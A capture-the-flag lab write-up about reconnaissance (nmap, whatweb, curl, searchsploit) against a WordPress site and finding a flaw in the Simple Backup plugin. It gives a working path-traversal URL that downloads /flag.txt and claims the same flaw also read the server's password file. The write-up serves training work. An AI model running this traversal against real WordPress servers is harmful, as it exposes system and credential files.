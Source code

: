 # Challenges

## Getting Started/Public exploits

### Challenge

Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start) 

### Solution

Running `nmap` returned 
```
└──╼ $nmap 94.237.49.11
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-28 08:01 EET
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.11 seconds
```
So I tried banner grabbing with `whatweb`
```
──╼ $whatweb 94.237.49.11:52891
http://94.237.49.11:52891 [200 OK] Apache[2.4.41], Country[FINLAND][FI], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[94.237.49.11], MetaGenerator[WordPress 5.6.1], PoweredBy[--], Script, Title[Getting Started &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[5.6.1]
```
Got response that server is running a WordPress website on a Apache server. 
Then went to look for exploits on Apache and Wordpress, but did not find any note worthy.

Then I ran
```└──╼ $curl -IL 94.237.49.11:52891
HTTP/1.1 200 OK
Date: Tue, 28 Nov 2023 06:28:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Link: <http://94.237.49.11:52891/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```
Which revealed to me that `index.php` page is accessible.
![Public Exploits Page](./../Images/PublicExploitPage.png)

In the page we can see WordPress plugin `Simple Backup Plugin 2.7.10`. So I used `searchsploit` to find vulnerabilities for the plugin
```
└──╼ $searchsploit -w Wordpress "Simple Backup Plugin"
------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                     |  URL
------------------------------------------------------------------- --------------------------------------------
WordPress Plugin Simple Backup 2.7.11 - Multiple Vulnerabilities   | https://www.exploit-db.com/exploits/39883
------------------------------------------------------------------- --------------------------------------------
```
Then I checked out the exploit-db website and saw there's a file download exploit so I pasted the URL and edited it to access /user/<user>/flag.txt
`http://94.237.62.195:45161/wp-admin/tools.php?page=backup_manager&download_backup_file=../../../../flag.txt` which downloaded me the file which contents contained the flag for the challenge.

```
With this exploit I was even able to download /etc/pswd
```